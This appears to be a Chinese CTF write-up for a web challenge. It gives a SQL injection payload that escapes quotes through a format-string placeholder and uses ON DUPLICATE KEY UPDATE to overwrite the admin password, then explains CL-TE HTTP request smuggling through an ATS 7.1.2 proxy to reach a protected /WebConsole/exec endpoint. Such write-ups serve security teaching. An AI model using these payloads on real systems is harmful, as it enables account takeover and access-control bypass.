审计结束，发现格式化字符串漏洞逃逸单引号，开始测试
1 | username=admin%1$',sleep(3))#&password=123 |
成功sleep，说明插入字段就只有username和password。然后可以进行时间盲注，但是我们要登陆admin，而密码是sha256加密，注入出来也不知道明文
对此出题人也给了提示：Hint1:The password of admin is strong enough, so you can only try to modify it.
因为用户名字段是UNIQUE属性，所以这里利用ON DUPLICATE KEY UPDATE，payload：
1 | username=admin%1$',%1$'somnus%1$') ON DUPLICATE KEY UPDATE password=%1$'9a1d21460bec1623058e16deaec11ece4e68b0d88253f4caa6d4753c778ae909%1$'#&password=123 |
插入后的语句就变成了：
1 | INSERT INTO `user`(`username`,`password`) VALUE('admin','somnus') ON DUPLICATE KEY UPDATE password='9a1d21460bec1623058e16deaec11ece4e68b0d88253f4caa6d4753c778ae909'; |
当用户名字段重复时，自动执行更新，将admin的密码更新为自己修改的密码
执行后登陆admin/somnus

但是进入WebConsole却提示要内网IP

ATS HTTP走私
修改XFF也还是一样，这里可以留意到响应包头：Server: ATS/7.1.2
ATS中间代理存在HTTP走私漏洞，具体可以参考：
https://mengsec.com/2019/10/10/http-request-smugging/

文章里提到可以利用CL-TE的方法进行走私攻击
我们可以先来看一下CL-TE走私的具体原理：
所谓CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理Content-Length这一请求头，而后端服务器会遵守RFC2616的规定，忽略掉Content-Length，处理Transfer-Encoding这一请求头
例如我们发送如下数据包：
1 | POST / HTTP/1.1\r\n |
首先前端代理服务器解析Content-Length:6，读取了数据：
1 | 0\r\n |
于是认为这是一个完整的请求包，于是将该数据包转发给后端服务器。后端服务器认为忽略Content-Length，处理Transfer-Encoding:chunked，即分块传输请求包。具体关于Transfer-Encoding可以参考：https://www.bbsmax.com/A/pRdBaGrD5n/
然后读取数据：
1 | 0\r\n |
因为数据没有读取到最后一行的G，于是后端服务器会认为G是下一个请求的数据，于是将它塞入缓冲区，等待下一个请求的到来
然后此时，我们再发送一个同样的包，发送的请求在后端服务器拼接成了类似下面这种请求：
1 | GPOST / HTTP/1.1\r\n |
简单理解了CL-TE的原理，我们再回到题目环境
这题的检测应该是在中间代理ATS服务器，通过检测才将请求转发给后端服务器。所以我们登陆admin后，直接访问/WebConsole是无法通过中间代理的检测的。但是因为检测是中间代理，后端服务器是无条件相信中间代理转发的包的，所以我们可以通过走私的方式将想要的数据包通过代理转发给后端服务器。
payload如下：
1 | POST / HTTP/1.1 |
跟上面分析的原理一样，我们一开始访问的不是/WebConsole，所以可以通过ATS的检测，ATS代理解析Content-Length: 660，即：
1 | 0 |
然后转发给后端服务器，后端服务器解析Transfer-Encoding: chunked，即：
1 | 0\r\n |
将后面（即我们构造的数据包）：
1 | POST /WebConsole/exec HTTP/1.1 |
塞入缓存区，当下一次请求到来时，这个数据包就会被后端服务器解析，即成功访问/WebConsole
最后，我们只需要通过burp重复发包即可getflag
